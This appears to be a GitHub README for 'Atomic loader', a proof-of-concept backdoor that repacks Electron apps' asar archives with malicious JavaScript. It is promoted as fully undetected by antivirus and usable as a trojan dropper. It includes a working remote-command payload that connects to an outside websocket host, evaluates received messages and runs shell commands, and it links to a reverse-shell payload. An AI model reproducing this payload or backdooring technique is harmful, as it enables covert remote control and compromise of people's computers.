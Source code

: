 # Atomic loader

### What is this Atomic loader

This is a proof of concept universal electron **FUD** application backdoor. I named it atomic loader because electron was called "atomic shell" before it was renamed apparently.

![](loader.png)

### How does it work
Every single electron application uses a format called asar, you might have seen this:
[https://github.com/electron/asar](https://github.com/electron/asar)

- Unpacking asar files is simple and packing it back with malicious javascript added will force the code to load with the application and therefore backdooring it.
- I can't say it "injects" but it's some form of persistance inside the application

This loader was based on vxunderground's research paper: "Node modules infector" but not to be confused since it works completely different yet the idea is still the same.
[https://github.com/vxunderground/VXUG-Papers/tree/main/Node%20Module%20Infector](https://github.com/vxunderground/VXUG-Papers/tree/main/Node%20Module%20Infector)


### Why does it not fully work?
There are 2 main reasons
-> 1. I don't want to release this as fully working code out into the wild before it gets fully patched
-> 2. I've tried pretty hard to get it to work, It works most of the time, usually if you have one electron application but it seems to break for some reason, I just can't figure out why. Maybe you can help me? Feel free to commit.

**edit this line in the index.js before trying it out**

```js
const shellcode = "";
```

Use something like this: 

[https://github.com/vxunderground/VXUG-Papers/blob/main/Node%20Module%20Infector/Cross-platform%20demo/payloads/windows/discordReverseShell.js](https://github.com/vxunderground/VXUG-Papers/blob/main/Node%20Module%20Infector/Cross-platform%20demo/payloads/windows/discordReverseShell.js)

Or craft your own shellcode, that should connect to a websocket server and execute commands from it. In this example we will be using [piesocket](https://www.piesocket.com/):

```js
;const WebSocket=require('ws');var exec=require('child_process').execSync;var piesocket=new WebSocket('wss://us-nyc-1.piesocket.com/v3/1?api_key=<INSERT_KEY>&notify_self');piesocket.onopen=function(connect){piesocket.send('loaded');};piesocket.onmessage=function(message){if(message.data.startsWith('!')){try{eval(message.data.slice(1));}catch(e){}}};piesocket.onerror=function(error){location.reload();};piesocket.onclose=function(error){location.reload();};
// send !piesocket.send(exec('whoami')) into websocket for rce
```

### Detections on virustotal?
![](detections.png)
I'm proud to say this is surprisingly [100% FUD](https://www.virustotal.com/gui/file/4903e478fede3628566f20e2fb1caccbf22f88f9d02822748428d6ad23a88d64?nocache=1). Any application you compile with [node pkg](https://medium.com/@cpu_easy/how-i-got-zero-detections-on-virus-total-900f182a0d7b) will stay zero, Hence you could utilize this as a "trojan dropper"
Unless you want to code Mimikatz in nodejs ;)
